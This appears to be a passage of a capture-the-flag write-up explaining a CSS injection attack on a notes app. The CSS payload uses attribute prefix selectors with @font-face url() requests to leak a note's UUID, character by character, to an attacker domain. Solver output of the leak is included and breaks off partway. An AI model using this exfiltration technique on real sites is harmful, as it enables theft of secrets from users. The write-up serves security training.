 #### The Missing Knowledge

The CSS operator `^=` can match the prefix of an attribute. All notes in
`/dashboard` has hypertext links containing the UUID of the note. One can use
`href^=` to probe the UUID character by character and use `url()` to leak the
prefix that exists.

Note 1:

```
@font-face {
  font-family: fonta;
  src: url(https://mydomain/hatenotes/a);
}
@font-face {
  font-family: fontb;
  src: url(https://mydomain/hatenotes/b);
}
@font-face {
  font-family: fontc;
  src: url(https://mydomain/hatenotes/c);
}
...

#notesList li:last-child a[href^="/api/notes/a"] {
  font-family: fonta;
}
#notesList li:last-child a[href^="/api/notes/b"] {
  font-family: fontb;
}
#notesList li:last-child a[href^="/api/notes/c"] {
  font-family: fontc;
}
...
```

Note 2:
```
<link rel=stylesheet href="/static/api/notes/uuid1">
```

It requires 32 steps (64 notes) to probe the entire UUID of the flag note, so I
wrote a [script](hatenotes_solver.py) to get the flag:

```
Create SSL certificate: server.pem
Init user: x
Load firing pin...
Start exfiltration server...
UUID prefix:
UUID prefix: d
UUID prefix: da
UUID prefix: dad
UUID prefix: dad9
UUID prefix: dad9d
UUID prefix: dad9d2
UUID prefix: dad9d2b
UUID prefix: dad9d2bb
UUID prefix: dad9d2bb-3
UUID prefix: dad9d2bb-39
UUID prefix: dad9d2bb-39e
UUID prefix: dad9d2bb-39e8
UUID prefix: dad9d2bb-39e8-4
UUID prefix: dad9d2bb-39e8-4f
UUID prefix: dad9d2bb-39e8-4fb
UUID prefix: dad9d2bb-39e8-4fb1
UUID prefix: dad9d2bb-39e8-4fb1-b
```